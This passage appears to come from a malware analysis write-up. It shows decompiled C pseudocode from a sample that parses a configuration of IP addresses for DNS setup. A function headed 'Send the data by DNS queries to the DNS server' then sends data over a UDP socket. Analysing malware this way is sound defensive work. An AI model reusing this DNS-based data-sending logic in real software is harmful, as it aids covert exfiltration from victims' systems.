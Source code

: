 ```cpp
   *(undefined *)((int64_t)&s + (int64_t)var_ch) = *(undefined *)var_8h;
   var_ch = var_ch + 1;
   var_8h = var_8h + 1;
  }
  if ((char)s != '\0') {
   var_1ch = 0;
   ptr = (void *)0x0;
   s1 = (char *)strchr(&s, 0x3a);
   if (s1 != (char *)0x0) {
    *s1 = '\0';
    var_38h = &s;
    s1 = s1 + 1;
    var_28h = (char *)strtok(s1);
 while (var_28h != (char *)0x0) {
  var_2ch = inet_addr(var_28h);
  if (var_2ch != 0xffffffff) {
   var_1ch = var_1ch + 1;
   ptr = (void *)realloc(ptr, (uint64_t)var_1ch * 4, (uint64_t)var_1ch * 4);
   if (ptr == (void *)0x0) {  return 0; }
   *(uint32_t *)((uint64_t)(var_1ch - 1) * 4 + (int64_t)ptr) = var_2ch;
  }
  var_28h = (char *)strtok(0);
 }
 if (ptr != (void *)0x0) {
  conf_DNS(0x10, (int64_t)var_38h, (int64_t)ptr, (uint64_t)(var_1ch & 0xffff), arg2 & 0xffff);
  free(ptr);
 }
   }
  }
  if (*(char *)var_8h != '\0') {
   var_8h = var_8h + 1;
  }
 } while( true );
```

<h4>Send the data by DNS queries to the DNS server.</h4>

```cpp
undefined4 sendudp(int64_t arg1, int64_t arg2, void *arg3, int64_t arg4)
{
 int32_t iVar1;
 int64_t var_38h;
 void *var_30h;
 int64_t var_24h;
 undefined4 var_1ch;
 undefined4 optname;
 uint32_t fildes;
 int64_t var_4h;
 
 var_24h._0_4_ = (undefined4)arg1;
 fildes = 0xffffffff;
 optname = 1;
 var_4h._0_4_ = 0xffffffff;
 fildes = socket(2, 2, 0);
 if (fildes != 0xffffffff) {
  var_24h._4_2_ = 2;
  var_24h._6_2_ = htons(arg2 & 0xffff);
  var_1ch = (undefined4)var_24h;
  iVar1 = setsockopt(fildes, 1, 6, &optname, 4);
  if (-1 < iVar1) {
   var_4h._0_4_ = sendto(fildes, arg3, arg4, 0, (int64_t)&var_24h + 4, 0x10);
  }
 }
 close(fildes);
```